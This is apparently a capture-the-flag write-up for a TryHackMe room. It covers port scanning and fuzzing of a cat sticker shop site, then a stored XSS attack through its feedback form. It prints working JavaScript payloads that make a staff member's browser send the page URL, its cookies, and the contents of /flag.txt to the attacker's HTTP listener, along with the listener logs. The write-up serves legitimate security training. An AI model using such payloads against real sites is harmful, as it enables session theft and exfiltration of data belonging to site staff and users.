 # Write-Up: The Sticker Shop
[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page in the browser.

### Inspecting the Website
![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`, and the absence of `cat_sticker_3.png` likely tells us that there are no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.

![Feedback page of the hosted website](img/StickerShop-FeedbackPage.png)

- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the flag.

### Fuzzing
Let's see if we can find more resources on the server with `gobuster`. Since no domain name for the website is known, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done with [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
```
```
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, no hidden parameter can be found.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`), we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the website, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in our message. This of course only works if the submitted message isn't sanitized by the server and just handed down. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server performed by the staff. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Trying to navigate to the newly found route, `/view_feedback`, doesn't give us more information about the site since authentication is required. But now we can try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following feedback message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he will likely be able to also access `/flag.txt`. We therefore extend our payload a little bit and let the staff's browser make a request for the flag and then send us its value.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect on our local server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.
